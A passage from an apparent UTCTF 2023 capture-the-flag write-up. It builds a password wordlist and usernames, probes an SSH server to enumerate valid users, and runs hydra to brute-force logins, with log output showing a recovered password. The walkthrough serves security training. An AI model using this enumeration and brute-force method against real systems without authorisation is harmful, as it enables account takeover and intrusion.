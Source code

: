 ``` utflag{out-of-c0ntrol-access} ```
abracadabra<
abracadabra>
abracadabra,
abracadabra.
abracadabra?
abracadabra/
abracadabra
```

Usernames:

Crystal Ball, Wade Coldwater, Jay Walker, and Holly Wood

```
cball
wcoldwater
jwalker
hwood
```

So we might be on the right path with the username format guess, since the response of the SSH server is different for a valid user and wrong user:

```bash
kali@kali:~/Desktop/CTFs/UTCTF2023$ ssh casdasdasd@betta.utctf.live -p 8822
kex_exchange_identification: read: Connection reset by peer
Connection reset by 44.201.8.3 port 8822
                                                                                                                                                                                                           
kali@kali:~/Desktop/CTFs/UTCTF2023$ ssh wcoldwater@betta.utctf.live -p 8822
wcoldwater@betta.utctf.live's password:
```

Let's use hydra with the generated passwords and users:

```bash
hydra -s 8822 -L users.txt -P pass.txt betta.utctf.live -t 1 -c 2 -V ssh 
...
[ATTEMPT] target betta.utctf.live - login "wcoldwater" - pass "abracadabra!" - 34 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "wcoldwater" - pass "abracadabra@" - 35 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "wcoldwater" - pass "abracadabra#" - 36 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "wcoldwater" - pass "abracadabra$" - 37 of 132 [child 0] (0/0)
[8822][ssh] host: betta.utctf.live   login: wcoldwater   password: abracadabra$
[ATTEMPT] target betta.utctf.live - login "jwalker" - pass "abracadabra!" - 67 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "jwalker" - pass "abracadabra@" - 68 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "jwalker" - pass "abracadabra#" - 69 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "jwalker" - pass "abracadabra$" - 70 of 132 [child 0] (0/0)
[ATTEMPT] target betta.utctf.live - login "jwalker" - pass "abracadabra%" - 71 of 132 [child 0] (0/0)
...
```

